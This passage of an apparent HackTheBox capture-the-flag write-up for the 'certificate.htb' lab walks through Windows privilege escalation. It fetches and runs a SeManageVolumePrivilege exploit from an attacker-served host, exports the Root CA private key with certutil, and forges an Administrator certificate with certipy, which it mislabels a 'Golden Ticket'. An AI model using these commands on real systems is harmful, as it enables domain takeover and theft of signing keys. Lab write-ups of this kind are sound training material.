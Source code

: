     This shows `RyanK` has `SeManageVolumePrivilege`, which is dangerous as it allows manipulating file system ACLs.

3.  **Exploit `SeManageVolumePrivilege`:**
    Download and execute a suitable exploit (e.g., from `HackTheBox` or `enox`'s GitHub for `SeManageVolumePrivilege`). This exploit typically sets the ACLs of sensitive directories (like `C:\Users\Administrator\Desktop`) to `Everyone:Full Control`.

      * **Download Exploit (from attacker machine, serve with Python HTTP server):**
        ```bash
        wget http://<your_ip>:8000/SeManageVolumeExploit.exe
        ```
      * **Upload to Target:**
        ```powershell
        upload SeManageVolumeExploit.exe
        ```
      * **Execute Exploit:**
        ```powershell
        .\SeManageVolumeExploit.exe
        ```
        This allows access to administrator's desktop.

### Golden Ticket Attack for Root

Even with file system access, `root.txt` might be protected by Windows EFS (Encrypted File System). A Golden Ticket attack is used to impersonate the Domain Administrator.

1.  **Export Root CA Certificate (Signing Key):**
    First, find the serial number of the Root CA certificate.

    ```bash
    certutil -store root
    ```

    Look for the "Serial Number."
    Then, export the Root CA's certificate to a PFX file.

    ```powershell
    certutil -exportPFX "<Serial_Number>" ca.pfx
    ```

    This creates `ca.pfx` on the target machine.

2.  **Download `ca.pfx`:**

    ```powershell
    download ca.pfx
    ```

3.  **Forge Administrator Certificate (Golden Ticket):**
    On your attacking machine, use `certipy` to forge a certificate for the `Administrator` using the downloaded `ca.pfx`.

    ```bash
    certipy forge -pfx ca.pfx -upn administrator@certificate.htb -subject "CN=Administrator,DC=certificate,DC=htb" \
    -dc-ip 10.10.11.71 -output admin_forged.pfx
    ```
